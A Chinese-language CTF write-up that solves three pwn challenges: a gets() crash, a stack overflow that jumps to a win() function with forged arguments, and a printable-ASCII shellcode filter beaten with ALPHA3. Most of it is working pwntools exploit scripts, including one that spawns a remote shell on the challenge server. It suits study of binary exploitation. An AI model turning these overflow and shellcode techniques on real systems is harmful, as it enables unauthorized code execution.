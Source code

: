# 1 Smash the stack

题目使用了gets()，会无限读输入。吃到段错误就会吐出flag，输入一长串任意字符得到flag

# 2 Check and overlap
在ida的反汇编中，vuln函数与win函数大致如下：
```cpp
int vuln(){
  char s[108]; // [esp+Ch] [ebp-6Ch] BYREF
  gets(s);
  return puts(s);
}

char *__cdecl win(int a1, int a2){
  char *result; // eax
  char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream ){
    exit(0);
  }else{
    result = fgets(s, 64, stream);
    if ( a1 == 0xDEADBEEF && a2 == 0xDEADC0DE ){
      result = (char *)printf(s);
    }
  return result;
  }
}
```
vuln会向大小为108的char数组写入输入的全部内容。思路为填满108个字符，造成ROP。  
同时修改win传入的第1、2个参数，脚本如下：
```python
from pwn import *

p = remote("ali.infury.org", 10002)
trash_data = b'a' * 108             # 填满s[108]
cover_ebp = b'b' * 4                # 栈中s后紧跟是ebp，之后才是eip，在x86系统中，ebp是四个字节
win_address = p32(0x80485cb)        # win函数的地址，用它覆盖掉eip，vuln执行完后就会跳转到win
return_address = p32(0xffffffff)    # 第0个参数是win执行完后的返回地址
parameter_1 = p32(0xdeadbeef)       # 第一个参数
parameter_2 = p32(0xdeadc0de)       # 第二个参数
p.sendlineafter(b'string: ', trash_data + cover_ebp + win_address +
                return_address + parameter_1 + parameter_2)
p.interactive()
```
执行脚本得到flag

# Perfectly secure from shellcode
题目直接给出了源码：
```cpp
// gcc -m64 -z execstack -fPIE -pie -z now chall3.c -o chall3
int main() {
    char buf[0x400];
    int n, i;
    n = read(0, buf, 0x400);
    if (n <= 0) return 0;
    for (i = 0; i < n; i++) {
        if(buf[i] < 32 || buf[i] > 126) return 0;
    }
    ((void(*)(void))buf)();
}
```
程序会直接执行输入的payload，但是仅限可打印的ASCII字符。  
github上的alpha3仓库可以将任意shellcode转换为可打印字符，并支持多种架构和字符集  
用shellcraft生成/bin/sh的shellcode，并用alpha3编码，最后发送payload获得shell  
注意程序采用read获取输入，要发送够read吃入的长度。
```python
from pwn import *
import os


context.arch = 'amd64'
f = open("a.bin", "wb")
f.write(asm(shellcraft.sh()))
f.close()

os.system("python ./ALPHA3.py x64 ascii mixedcase rax --input=a.bin > 1.txt")
f = open("1.txt", "r")
l = f.read()
f.close()

p = remote("ali.infury.org", 10003)
p.send(l.encode()+b'a' * (0x400 - len(l)))
p.sendline("cat flag.txt")
p.interactive()
```